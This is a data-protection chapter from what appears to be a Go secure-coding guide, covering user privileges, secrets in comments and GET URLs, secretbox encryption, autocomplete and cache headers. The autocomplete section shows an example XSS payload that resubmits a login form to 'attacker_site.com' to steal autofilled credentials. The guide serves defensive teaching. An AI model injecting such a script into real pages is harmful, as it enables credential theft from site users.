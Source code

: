 Data Protection
===============

Nowadays, one of the most important things in security in general is data protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this section we will take a look at the different ways to secure it.

One of the first things you should take care is creating and implementing the right privileges for each user and restrict them to only the functions they really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed as soon as they're not needed. If you still need some of them, move them to protected areas or encrypt them.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and sometimes, in the worst case scenario, developers may leave credentials.

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

In the above example, the developer has a endpoint in a comment which, if not well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has session IDs, pins or tokens that don't expire (or have low entropy), they can be stolen.

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

If you web application tries to get information from a third-party website using your ```api_key```, it could be stolen if anyone is listening within your network. This is due to the lack of HTTPS and the parameters being passed through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production environment. Some documents could disclose versions, or even functions that could be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that is no longer used. Imagine that the user has expired credit cards on his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the application.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application. Use the military-grade [encryption available in Go][2]; for more information, see the [Cryptographic Practices][3] section.

If you need to implement your code elsewhere, just build and share the binary - there's no bulletproof solution to prevent reverse engineering.

Getting different permissions for accessing the code and limiting the access for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database connection strings on [Database Security][4] section) or other sensitive information in clear text or in any non-cryptographically secure manner on the client side. This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of encryption in Go using and external package
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := io.ReadFull(rand.Reader, nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

Output will be:

```
hello world
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a case where a XSS vector is present in the login page. If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags, as shown in the following snippet:

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

The `no-cache` value tells the browser to revalidate with the server before using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
